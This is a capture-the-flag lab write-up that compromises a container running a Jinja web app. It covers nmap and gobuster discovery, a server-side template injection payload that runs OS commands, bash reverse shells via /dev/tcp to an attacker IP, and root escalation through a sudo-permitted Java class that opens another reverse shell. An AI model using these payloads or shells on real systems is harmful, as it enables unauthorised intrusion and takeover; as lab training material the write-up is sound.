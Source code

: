 # Consolelog

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 64
3000/tcp open  ppp     syn-ack ttl 64
5000/tcp open  upnp    syn-ack ttl 64

```

## Examining ports

We are going to explore the version of this service. For this, we execute the following command:

```ruby
nmap -sCV -p5000 172.17.0.2 
```
we obtain this dataset:

![alt text](Imagenes/Pingu_1.png)


## Analyzing web page

When we enter the web page, we obtain the following:

It looks like a form created with `Jinja`.
![alt text](Imagenes/Pingu_2.png)

We can execute HTML injection to verify if it has any filters.

![alt text](Imagenes/Pingu_3.png)

If we search for directories on the site with the Gobuster tool, we find `/console`

We need a password to access the console.
![alt text](Imagenes/Pingu_4.png)


## Intrusion

We can try to access with `SSTI (Server Side Template Injection)`

We can run a command to execute an SSTI like this:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

we obtain:

![alt text](Imagenes/Pingu_5.png)

Successfully, we obtain a response from the server showing our user.

Now we are going to prepare the reverse shell to connect with us.

First, we need to use the nc tool:

```ruby
nc -lvnp 1234
```

We can exploit with the following command:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/192.168.139.130/1234 0>&1"').read()}}
```

![alt text](Imagenes/Pingu_6.png)


# TTY processing

To make it more comfortable for us, we're going to treat the terminal so that there are no errors in some commands and they work.

For this, we first execute the following order:

```ruby 
script /dev/null -c bash
```

We press ctrl + Z to exit the terminal and do the following commands:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

We will have a more comfortable terminal.

## Escalation privilege

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for pinguinazo on 17eb54554e98:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on 17eb54554e98:
    (ALL) NOPASSWD: /usr/bin/java

```

We can see that we can execute Java scripts, so we can try to create a file to spawn a shell with root privileges.

Therefore, we need to edit the script with the following code:

```ruby
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.139.130/4321 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}

```

Now, we are able to spawn a shell with root privileges if we execute the following:

```ruby
sudo java shell
```

![alt text](Imagenes/Pingu_8.png)
![alt text](Imagenes/Pingu_9.png)
